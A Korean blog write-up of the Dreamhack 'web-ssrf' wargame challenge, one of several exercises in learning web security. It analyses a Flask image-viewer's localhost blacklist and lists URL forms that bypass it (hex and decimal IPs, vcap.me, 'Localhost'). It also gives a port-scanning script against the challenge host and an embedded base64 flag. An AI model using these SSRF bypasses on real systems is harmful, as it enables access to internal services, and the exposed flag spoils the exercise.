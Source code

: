 ```yaml
---
layout : single
title : "STAGE9. Server Side Request Forgery"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : Server Side Request Forgery (SSRF)

-  [x] 함께 실습 : web-ssrf

## 함께 실습 : web-ssrf

플래그는 /app/flag.txt 에 있다

### 웹 서비스 분석

#### /img_viewer

GET : img_viewer.html 렌더링

POST : 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

#### run_local_server 함수

파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버를 실행한다. http.server.HTTPServer의 두 번째 인자로 http.server.SimpleHttpRequestHandler을 전달하면, 현재 디렉토리를 기준으로 URL이 가리키는 리소스를 반환하는 웹 서버가 생성된다. 

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)

def run_local_server():
    local_server.serve_forever()

threading._start_new_thread(run_local_server, ())
```

### 취약점 분석 

```python
elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
    data = open("error.png", "rb").read()
    img = base64.b64encode(data).decode("utf8")
    return render_template("img_viewer.html", img=img)
```

img_viewer는 위와 같은 방법으로 127.0.0.1 또는 localhost가 포함된 URL로의 접근을 막기에, 이를 우회하면 SSRF를 통한 내부 HTTP 서버 접근을 할 수 있다.

\* URL 필터링은 URL에 포한되면 안되는 문자열로 블랙리스트를 만들고, 이를 이용하여 이용자의 접근을 제어하는 블랙리스트 필터링과, 접근을 허용할 URL로 구성된 화이트리스트 외의 URL을 모두 차단하는 화이트리스트 필터링으로 나뉜다

### 익스플로잇

- 127.0.0.1과 매핑된 도메인 이름 사용 <br>임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하거나, 이미 127.0.0.1에 매핑된 *.vcap.me 를 이용하여 접근할 수 있다

- 127.0.0.1의 alias 이용 <br>하나의 IP는 여러 방식으로 표기되는데, 127.0.0.1의 경우, 다음과 같은 방식으로 표기될 수 있다.

>>|How|Example|
|:---|:---|
|16진수로 변환|0x7f.0x00.0x00.0x01|
|16진수 변환에서 . 제거|0x7f000001|
|위 숫자를 10진수로 변환|2130706433|
|각 자리에서 0 생략|127.1 / 127.0.1|

- localhost의 alias 이용<br>호스트와 스키마는 대소문자를 구분하지 않으므로, localhost의 임의 문자를 대문자로 바꾸어도 같은 호스트를 의미한다

#### 필터링을 우회할 수 있는 로컬호스트의 URL

http://vcap.me:8000/

http://0x7f.0x00.0x00.0x01:8000/

http://0x7f000001:8000/

http://2130706433:8000/

http://Localhost:8000/

http://127.0.0.255:8000/

<!-- data:image/png;base64, REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9 -->

#### 풀이

1) 아래와 같이 내부 HTTP 서버의 포트번호를 알아내는 코드를 작성 후 실행한다

```python
from flask import (
    Flask,
    request
)
import requests

for port in range(1500, 1800):
    res = requests.post('http://host3.dreamhack.games:10334/img_viewer', data={'url': 'http://Localhost:' + str(port)})
    print(port)
    if len(res.text) != 65121: # error.png의 res.text 길이 = 65121 바이트
        print('random port: ' + str(port))
        break
```

2) 다음과 같이 포트 번호의 정보를 얻는다

<img src = "/images/wargame/19.png"><br>

3) 포트 번호를 넣어 app/flag.txt 에 접근한다

<img src = "/images/wargame/17.png"><br>

4) 출력되는 img의 src가 바뀐 것을 볼 수 있는데, 다음 정보를 base64 디코더에 넣어 디코딩 하면 flag를 얻을 수 있다

<img src = "/images/wargame/18.png"><br>